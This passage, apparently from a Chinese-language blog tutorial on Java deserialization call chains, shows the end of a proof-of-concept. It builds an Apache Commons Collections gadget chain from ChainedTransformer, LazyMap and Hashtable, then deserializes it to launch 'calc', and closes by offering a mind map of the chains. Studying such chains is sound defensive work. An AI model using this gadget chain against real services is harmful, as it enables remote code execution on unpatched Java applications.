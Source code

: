```plain
                        Object[]{"calc"}),
        };
        ChainedTransformer chainedTransformer = new
                ChainedTransformer(fakeformers);
        Map innerMap1 = new HashMap();
        innerMap1.put("pP",1);
        Map innerMap2 = new HashMap();
        innerMap2.put("oo",1);
        Map lazyMap1 = LazyMap.decorate(innerMap1, chainedTransformer);
        Map lazyMap2 = LazyMap.decorate(innerMap2, chainedTransformer);
        Hashtable hashtable = new Hashtable();
        hashtable.put(lazyMap1,1);
        hashtable.put(lazyMap2,2);
        lazyMap2.remove("pP");
        Class clazz = ChainedTransformer.class;
        Field field = clazz.getDeclaredField("iTransformers");
        field.setAccessible(true);
        field.set(chainedTransformer,transforms);
        ByteArrayOutputStream bos = new ByteArrayOutputStream();
        ObjectOutputStream oos = new ObjectOutputStream(bos);
        oos.writeObject(hashtable);
        oos.close();
        ObjectInputStream ois = new ObjectInputStream(new
                ByteArrayInputStream(bos.toByteArray()));
        ois.readObject();
    }
}
```

最后给出所有调用链的一个简单的思维导图供大家总结：

[![](assets/1701612311-069c0ea9644b77de46ac63bfc4400820.png)](https://xzfile.aliyuncs.com/media/upload/picture/20230712235711-c30dbec0-20cc-1.png)
